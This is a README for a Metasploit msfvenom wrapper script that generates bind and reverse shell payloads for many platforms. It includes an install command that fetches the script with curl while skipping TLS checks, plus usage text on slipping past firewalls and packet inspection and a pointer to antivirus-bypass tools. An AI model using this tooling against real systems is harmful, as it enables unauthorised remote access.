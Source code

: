 # Zacky_PayGen
A simple and usage payload generator tool for educational purposes.


A **quick** way to generate various "basic" Meterpreter payloads via `msfvenom` (part of the Metasploit framework).

<p align="center">
  <img src="https://img.fruugo.com/product/3/64/175799643_max.jpg" alt="Zacky_logo"/>
</p>


- - -


## About

MSFvenom Payload Creator to generate multiple types of payload.

**Fully automating**
The rest is to make the user's life as **easy as possible** 
**Note** 
If you want to bypass Antivirus see for more of my tools :)

- - -


## Install

+ Designed for **Kali Linux v2.x/Rolling** & **Metasploit v4.11+**.

```
$ curl -k -L "https://github.com/Gesus-del/Zacky_PayGen/Zacky_PayGen.sh" > /usr/local/bin/Zacky_PayGen
$ chmod +x /usr/local/bin/Zacky_PayGen
```
### Kali-Linux

```
$ sudo bash Zacky_PayGen.sh                  
 [*] MSFvenom Payload Creator (Zacky_PayGen v0.1)

 [i] Missing TYPE or BATCH/LOOP mode

 Zacky_PayGen.sh <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
   Example: Zacky_PayGen.sh windows 192.168.1.10        # Windows & manual IP.
            Zacky_PayGen.sh elf bind eth0 4444          # Linux, eth0's IP & manual port.
            Zacky_PayGen.sh stageless cmd py https      # Python, stageless command prompt.
            Zacky_PayGen.sh verbose loop eth1           # A payload for every type, using eth1's IP.
            Zacky_PayGen.sh msf batch wan               # All possible Meterpreter payloads, using WAN IP.
            Zacky_PayGen.sh help verbose                # Help screen, with even more information.

 <TYPE>:
   + APK
   + ASP
   + ASPX
   + Bash [.sh]
   + Java [.jsp]
   + Linux [.elf]
   + OSX [.macho]
   + Perl [.pl]
   + PHP
   + Powershell [.ps1]
   + Python [.py]
   + Tomcat [.war]
   + Windows [.exe // .exe-service // .dll]

 Rather than putting <DOMAIN/IP>, you can do a interface and Zacky_PayGen will detect that IP address.
 Missing <DOMAIN/IP> will default to the IP menu.

 Missing <PORT> will default to 443.

 <CMD> is a standard/native command prompt/terminal to interactive with.
 <MSF> is a custom cross platform shell, gaining the full power of Metasploit.
 Missing <CMD/MSF> will default to <MSF> where possible.

 <BIND> opens a port on the target side, and the attacker connects to them. Commonly blocked with ingress firewalls rules on the target.
 <REVERSE> makes the target connect back to the attacker. The attacker needs an open port. Blocked with engress firewalls rules on the target.
 Missing <BIND/REVERSE> will default to <REVERSE>.

 <STAGED> splits the payload into parts, making it smaller but dependent on Metasploit.
 <STAGELESS> is the complete standalone payload. More 'stable' than <STAGED>.
 Missing <STAGED/STAGELESS> will default to <STAGED> where possible.

 <TCP> is the standard method to connecting back. This is the most compatible with TYPES as its RAW. Can be easily detected on IDSs.
 <HTTP> makes the communication appear to be HTTP traffic (unencrypted). Helpful for packet inspection, which limit port access on protocol - e.g. TCP 80.
 <HTTPS> makes the communication appear to be (encrypted) HTTP traffic using as SSL. Helpful for packet inspection, which limit port access on protocol - e.g. TCP 443.
 <FIND_PORT> will attempt every port on the target machine, to find a way out. Useful with stick ingress/engress firewall rules. Will switch to 'allports' based on <TYPE>.
 Missing <TCP/HTTP/HTTPS/FIND_PORT> will default to <TCP>.

 <BATCH> will generate as many combinations as possible: <TYPE>, <CMD + MSF>, <BIND + REVERSE>, <STAGED + STAGELESS> & <TCP + HTTP + HTTPS + FIND_PORT> 
 <LOOP> will just create one of each <TYPE>.

 <VERBOSE> will display more information.
$
```
